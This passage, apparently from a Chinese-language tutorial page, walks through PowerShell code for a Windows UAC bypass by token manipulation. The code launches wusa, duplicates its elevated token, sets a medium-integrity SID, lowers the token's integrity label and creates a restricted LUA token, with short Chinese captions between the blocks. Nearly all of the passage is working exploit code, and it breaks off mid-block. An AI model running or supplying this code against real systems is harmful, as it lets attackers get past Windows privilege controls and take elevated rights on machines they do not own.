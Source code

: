 ```powershell
		}
```

启动wusa进程

```powershell
	$hToken = [IntPtr]::Zero
	if ([UACTokenMagic]::OpenProcessToken($hProcess,0x02000000,[ref]$hToken)) {
		echo "[*] Opened process token"
	} else {
		echo "[!] Failed open process token!`n"
		Break
	}
	
	# Duplicate token
	# TOKEN_ALL_ACCESS = 0xf01ff
	$hNewToken = [IntPtr]::Zero
	$SECURITY_ATTRIBUTES = New-Object SECURITY_ATTRIBUTES
	if ([UACTokenMagic]::DuplicateTokenEx($hToken,0xf01ff,[ref]$SECURITY_ATTRIBUTES,2,1,[ref]$hNewToken)) {
		echo "[*] Duplicated process token"
	} else {
		echo "[!] Failed to duplicate process token!`n"
		Break
	}
```

打开wusa进程令牌句柄，复制令牌

```powershell
	$SID_IDENTIFIER_AUTHORITY = New-Object SID_IDENTIFIER_AUTHORITY
	$SID_IDENTIFIER_AUTHORITY.Value = [Byte[]](0x0,0x0,0x0,0x0,0x0,0x10)
	$pSID = [IntPtr]::Zero
	if ([UACTokenMagic]::AllocateAndInitializeSid([ref]$SID_IDENTIFIER_AUTHORITY,1,0x2000,0,0,0,0,0,0,0,[ref]$pSID)) {
		echo "[*] Initialized MedIL SID"
	} else {
		echo "[!] Failed initialize SID!`n"
		Break
	}
	
	# Token integrity label
	$SID_AND_ATTRIBUTES = New-Object SID_AND_ATTRIBUTES
	$SID_AND_ATTRIBUTES.Sid = $pSID
	$SID_AND_ATTRIBUTES.Attributes = 0x20 # SE_GROUP_INTEGRITY
	$TOKEN_MANDATORY_LABEL = New-Object TOKEN_MANDATORY_LABEL
	$TOKEN_MANDATORY_LABEL.Label = $SID_AND_ATTRIBUTES
	$TOKEN_MANDATORY_LABEL_SIZE = [System.Runtime.InteropServices.Marshal]::SizeOf($TOKEN_MANDATORY_LABEL)
	if([UACTokenMagic]::NtSetInformationToken($hNewToken,25,[ref]$TOKEN_MANDATORY_LABEL,$($TOKEN_MANDATORY_LABEL_SIZE)) -eq 0) {
		echo "[*] Lowered token mandatory IL"
	} else {
		echo "[!] Failed modify token!`n"
		Break
	}
	
	# Create restricted token
	# LUA_TOKEN = 0x4
	$LUAToken = [IntPtr]::Zero
	if([UACTokenMagic]::NtFilterToken($hNewToken,4,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero,[ref]$LUAToken) -eq 0) {
		echo "[*] Created restricted token"
	} else {
		echo "[!] Failed to create restricted token!`n"
```